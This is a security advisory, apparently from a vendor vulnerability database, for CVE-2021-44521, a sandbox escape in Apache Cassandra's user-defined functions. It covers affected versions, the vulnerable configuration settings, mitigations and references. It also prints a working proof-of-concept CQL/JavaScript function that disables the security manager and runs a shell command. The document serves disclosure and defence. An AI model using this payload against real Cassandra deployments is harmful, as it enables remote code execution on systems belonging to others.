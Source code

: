 ```yaml
---
description: CVE-2021-44521 High severity. Insufficient sandboxing of user-defined functions in Apache Cassandra leads to remote code execution
title: Cassandra UDF RCE
date_published: "2022-02-15"
last_updated: "2022-02-15"
xray_id: XRAY-197962
vul_id: CVE-2021-44521
cvss: 8.4
severity: high
discovered_by: Omer Kaspi
type: vulnerability
---
```

## Summary
Insufficient sandboxing of user-defined functions in Apache Cassandra leads to remote code execution

## Component

[Apache Cassandra](https://cassandra.apache.org/_/index.html)

## Affected versions

[3.0.0-alpha1, 3.0.25], fixed in 3.0.26

[3.1, 3.11.11], fixed in 3.11.12

[4.0-alpha1, 4.0.1], fixed in 4.0.2

## Description

CVE-2021-44521 is an RCE (remote code execution) issue in Apache Cassandra. This Apache vulnerability is easy to exploit and has the potential to wreak havoc on systems, but luckily only manifests in non-default configurations of Cassandra.  

Cassandra deployments are vulnerable to CVE-2021-44521 when the cassandra.yaml configuration file contains the following definitions:

```
enable_user_defined_functions: true
enable_scripted_user_defined_functions: true
enable_user_defined_functions_threads: false
```
A malicious authenticated user can run a trivial (publicly available) SQL query that causes remote code execution, by running JavaScript code in the query that abuses the JavaScript engine (Nashorn) and escapes the security sandbox

## PoC

```
create or replace function x.escape_system(name text) RETURNS NULL ON NULL INPUT RETURNS text LANGUAGE javascript AS $$
var System = Java.type("java.lang.System");System.setSecurityManager(null);this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec("touch hacked")');name $$;
```



## Vulnerability Mitigations

1. If UDFs are not actively used, they can be completely disabled by setting `enable_user_defined_functions` to `false` (which is the default value)
2. If UDFs are needed, set `enable_user_defined_functions_threads` to `true` (which is the default value)
3. Remove the permissions of creating, altering and executing functions for untrusted users by removing the following permissions: `ALL FUNCTIONS`, `ALL FUNCTIONS IN KEYSPACE` and `FUNCTION` for `CREATE`, `ALTER` and `EXECUTE` queries ([see blog post for example query](https://jfrog.com/blog/cve-2021-44521-exploiting-apache-cassandra-user-defined-functions-for-remote-code-execution/))

## References

[(JFrog) CVE-2021-44521: RCE Vulnerability in Apache Cassandra](https://jfrog.com/blog/cve-2021-44521-exploiting-apache-cassandra-user-defined-functions-for-remote-code-execution/)
[NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44521)